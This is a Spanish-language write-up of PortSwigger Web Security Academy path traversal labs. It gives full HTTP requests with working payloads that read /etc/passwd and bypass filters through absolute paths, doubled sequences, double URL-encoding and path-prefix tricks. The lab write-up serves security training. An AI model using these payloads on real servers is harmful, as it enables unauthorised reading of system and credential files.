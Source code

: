 # File path traversal, simple case

Para este laboratorio es el caso mas simple se ponen los puntos denotando un directorio atras en donde la web cargue un archivo y te muestra el 
/etc/passwd

```
GET /image?filename=../../../../../../etc/passwd HTTP/1.1
Host: 0a8200be041b466cc0f46aff00e000d3.web-security-academy.net
Cookie: session=wsnVR8iCU7MURckDcKT43ZatvLyTmC6e
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a8200be041b466cc0f46aff00e000d3.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```

# File path traversal, traversal sequences blocked with absolute path bypass

Para este laboratorio los path absolutos estan bloqueados asi que intentamos poner el path directamente y funciona:

```
GET /image?filename=/etc/passwd HTTP/1.1
Host: 0a14004104e94cd0c06a7f3100620012.web-security-academy.net
Cookie: session=OPMimRA2dbPLCe0heGzelqwfgJ8s4CWx
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a14004104e94cd0c06a7f3100620012.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```
# File path traversal, traversal sequences stripped non-recursively

Para este laboratorio se tiene que poner 2 veces los caracteres tanto puntos como / 

```
GET /image?filename=....//....//....//etc/passwd HTTP/1.1
Host: 0ae3005404acb0eec0e63efc007c009f.web-security-academy.net
Cookie: session=kuMONCyHoP9LldWOdczOPBZjRcUTGjs8
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ae3005404acb0eec0e63efc007c009f.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close


```

# File path traversal, traversal sequences stripped with superfluous URL-decode

Lo que hay que recuperar de este laboratorio es que intenta defenderse del ataque con url decode entonces si nosotros url encodeamos 2 veces al momento que
lo decodea queda encodeado de la primera y como no ve el caracter que no le gusta y entiende el url encode lo deja pasar.

URL encode para /

%2f

De nuevo URl encode

%25%32%66


```
GET /image?filename=..%25%32%66..%25%32%66..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd HTTP/1.1
Host: 0ab700cd047391d4c0072ea7003200dd.web-security-academy.net
Cookie: session=h6z4MtekU5ukDabbw2UqHakljBB2lBez
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0ab700cd047391d4c0072ea7003200dd.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```

# File path traversal, validation of start of path

Este laboratorio valida si los archivos a cargar vienen desde una direccion entonces la direccion es /var/www/images/ intenta pensar todas las
posibilidades

```
GET /image?filename=/var/www/images/../../../../../etc/passwd HTTP/1.1
Host: 0aa5003f04ae37bcc02f142600be0079.web-security-academy.net
Cookie: session=sFK1eAfglsM0HebwxjRoyeZNy8cfnWGK
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Referer: https://0aa5003f04ae37bcc02f142600be0079.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close

```
